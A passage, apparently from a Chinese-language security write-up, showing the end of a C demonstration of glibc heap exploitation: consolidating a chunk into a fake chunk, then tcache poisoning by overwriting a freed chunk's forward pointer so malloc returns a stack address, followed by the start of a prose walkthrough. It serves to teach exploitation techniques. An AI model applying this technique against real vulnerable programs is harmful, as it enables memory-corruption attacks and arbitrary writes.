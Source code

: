 ```plain
        free(x[i]);
    }

    printf("Now we free 'c' and this will consolidate with our fake chunk since 'c' prev_inuse is not set\n");
    free(c);
    printf("Our fake chunk size is now %#lx (c.size + fake_prev_size)\n", a[1]);

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    intptr_t *d = malloc(0x158);
    printf("Next malloc(0x158) is at %p\n", d);

    // tcache poisoning
    printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
           "We have to create and free one more chunk for padding before fd pointer hijacking.\n");
    uint8_t *pad = malloc(0x28);
    free(pad);

    printf("\nNow we free chunk 'b' to launch a tcache poisoning attack\n");
    free(b);
    printf("Now the tcache list has [ %p -> %p ].\n", b, pad);

    printf("We overwrite b's fwd pointer using chunk 'd'\n");
    d[0x30 / 8] = (long) stack_var;

    // take target out
    printf("Now we can cash out the target chunk.\n");
    malloc(0x28);
    intptr_t *e = malloc(0x28);
    printf("\nThe new chunk is at %p\n", e);

    // sanity check
    assert(e == stack_var);
    printf("Got control on target/stack!\n\n");
}
```

首先定义了一个栈地址，然后申请了一个 0x38 大小的堆块 `chunk a`

[![](assets/1702521085-514495706288b25b5be70bcb97265b42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230818-1f4146e6-9380-1.png)
